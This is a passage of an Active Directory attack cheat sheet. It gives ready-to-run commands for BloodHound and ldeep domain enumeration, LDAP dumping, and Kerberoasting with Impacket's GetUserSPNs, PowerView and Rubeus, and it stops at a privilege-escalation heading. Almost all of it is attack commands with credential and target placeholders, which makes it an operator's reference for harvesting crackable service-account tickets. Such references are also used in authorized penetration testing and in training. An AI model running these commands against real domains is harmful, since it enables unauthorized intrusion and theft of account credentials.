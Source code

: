   [PowerView 3.0 Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

##### Bloodhound

With Powershell:
```
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup,LoggedOn
Invoke-BloodHound -IgnoreLdapCert -LdapUser <user> -LdapPass <password> -CollectionMethod All,GPOLocalGroup,LoggedOn
```
With Exe:
```
.\sh.exe --CollectionMethod All,GPOLocalGroup
```

##### Ldeep
```
# Get users
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> users

# Dump all LDAP, generating also .lst files
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> all ldap_dump/
```

#### SPNs

With Impacket:
```
GetUserSPNs.py <domain_name>/<user>:<password>
GetUserSPNs.py <domain_name>/<user> -outputfile <filename> -hashes :<nt_hash>
```

With Powerview:
```
# List users with SPN
Get-NetUser -SPN

# Request TGS for every SPN
Invoke-Kerberoast
```
With Rubeus:
```
# Kerberoasting and outputing on a file with a specific format
Rubeus.exe kerberoast /domain:<domain_name> /outfile:<filename> 

# Kerberoast specific user account
Rubeus.exe kerberoast /user:<user> /domain:<domain_name> /outfile:<filename> /simple

# Kerberoast by specifying credentials 
Rubeus.exe kerberoast /creduser:<user> /credpassword:<password> /domain:<domain_name> /outfile:<filename>
```

### Privilege Escalation
